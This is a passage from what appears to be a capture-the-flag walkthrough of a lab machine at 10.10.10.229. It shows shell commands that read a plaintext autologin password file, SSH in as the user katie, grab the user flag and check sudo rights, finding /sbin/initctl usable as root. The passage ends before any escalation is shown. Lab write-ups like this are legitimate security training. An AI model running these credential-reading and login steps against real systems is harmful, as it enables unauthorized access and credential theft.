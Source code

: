 ```bash
ls /etc/autologin
```

![image](https://user-images.githubusercontent.com/67465230/158156321-c6685819-182d-4765-b6f1-3965aca59320.png)

there's a **passwd** file as well. Let's check this also,

```bash
ls -la /etc/autologin/passwd
```

![image](https://user-images.githubusercontent.com/67465230/158156362-a3e82e8a-2693-49e8-848d-87f604b93b83.png)

we can see that owner of this file is root. Let's see if can read this file,

```bash
cat /etc/autologin/passwd
```

![image](https://user-images.githubusercontent.com/67465230/158156374-01b9ba11-d990-4f0d-bdc8-87960eab8359.png)

BOOP!! We got password of katie user (maybe, let's try :) ).

```bash
ssh katie@10.10.10.229
```

![image](https://user-images.githubusercontent.com/67465230/158156383-8bb93ab2-7ce5-4532-b8ef-f5009a983615.png)

we get katie user access and we can also confirm using `whoami` command.

let's get the user flag,

```bash
ls
cat user.txt
```

![image](https://user-images.githubusercontent.com/67465230/158156396-197376a6-3262-4f45-82df-fb191b4f4209.png)

Now, time for **Privilege Escalation**.

Let's check if we can run binaries which can be run as root without providing password,

```bash
sudo -l
```

![image](https://user-images.githubusercontent.com/67465230/158156409-02c7a9fa-73a4-4412-976c-2db1e9e76922.png)

there's a **/sbin/initctl** binary which we can run using `sudo` command. 

```
initctl allows a system administrator to communicate and interact with the Upstart init(8) daemon.

init is the parent of all processes on the system, it is executed by the kernel and is responsible for starting all other processes.
```
